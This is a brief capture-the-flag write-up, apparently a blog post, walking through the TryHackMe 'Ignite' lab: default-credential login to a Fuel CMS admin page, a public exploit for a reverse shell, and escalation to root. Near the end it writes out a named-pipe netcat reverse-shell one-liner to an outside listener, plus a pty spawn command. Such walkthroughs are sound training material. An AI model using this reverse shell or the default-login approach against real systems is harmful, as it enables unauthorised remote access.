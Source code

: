 ```yaml
---
layout: post
title: "Ignite"
author: "Nicholas Coleman"
date: 2025-04-12
tags: tryhackme
---
```


### Info

IP: `10.10.233.34`

### Nmap

![nmap](/security.github.io/images/ignite/first.png)

Website:

![site](/security.github.io/images/ignite/2.png)

Gobuster:

![gobuster](/security.github.io/images/ignite/3.png)

Exploits:

![exploit](/security.github.io/images/ignite/4.png)

Since the admin did not change their default password, it seems I can just login without having to brute force anything, or figure it out. 

The admin page is located at: `http://10.10.233.34/fuel`

This brings me to a CMS, where there is very little information.

I decide to now just try out an exploit I found called FuelCMS which grants me a reverse shell. 

![shell](/security.github.io/images/ignite/8.png)

Bingo!

![bingo](/security.github.io/images/ignite/9.png)

I was able to find the user.txt flag pretty easily. 

Looking around, I was able to find a database file:

![10](/security.github.io/images/ignite/10.png)

Root user found! Now I have to escalate. 

`rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.6.25.18 4242 > /tmp/f`

This spawns a terminal so that I can login to root:

`python -c 'import pty; pty.spawn("/bin/sh")'`

![final](/security.github.io/images/ignite/11.png)

